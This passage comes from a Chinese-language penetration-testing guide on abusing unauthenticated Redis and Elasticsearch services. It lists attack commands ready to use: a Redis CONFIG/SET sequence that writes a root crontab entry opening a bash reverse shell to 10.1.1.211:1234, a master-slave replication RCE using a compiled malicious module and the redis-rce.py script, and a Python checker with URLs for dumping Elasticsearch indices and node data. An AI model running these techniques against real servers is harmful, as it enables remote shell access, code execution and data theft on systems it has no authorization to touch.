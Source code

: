 利用私钥成功登录redis服务器

##### 姿势三：利用contrab计划任务反弹shell

~~~
config set dir /var/spool/cron/crontabs/
config set dbfilename root
flushall
set test "* * * * * /bin/bash -i >& /dev/tcp/10.1.1.211:1234 0>&1"
save
~~~

##### 姿势四：主从复制RCE

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C语言编译并加载恶意的.so文件，达到代码执行的目的。

通过脚本实现一键自动化getshell：

1、生成恶意.so文件，下载RedisModules-ExecuteCommand使用make编译即可生成。

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```

2、攻击端执行： python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so

```
git clone https://github.com/Ridter/redis-rce.git
cd redis-rce/
cp ../RedisModules-ExecuteCommand/src/module.so ./
pip install -r requirements.txt 
python redis-rce.py -r 192.168.28.152 -p 6379 -L 192.168.28.137 -f module.so
```

#### Elasticsearch未授权访问

漏洞原因：Elasticsearch 默认端口为9200 ，攻击者可以直接访问http://ip:port

~~~python
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

import requests
def Elasticsearch_check(ip, port=9200, timeout=5):
    try:
    　　url = "http://"+ip+":"+str(port)+"/_cat"
    　　response = requests.get(url) 
    except:
    　　pass
    if "/_cat/master" in response.content:
    　　print '[+] Elasticsearch Unauthorized: ' +ip+':'+str(port)
~~~

漏洞测试：

```
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search 查看数据库敏感信息
http://localhost:9200/_nodes 查看节点数据

如有安装head插件：
http://localhost:9200/_plugin/head/ web管理界面
```
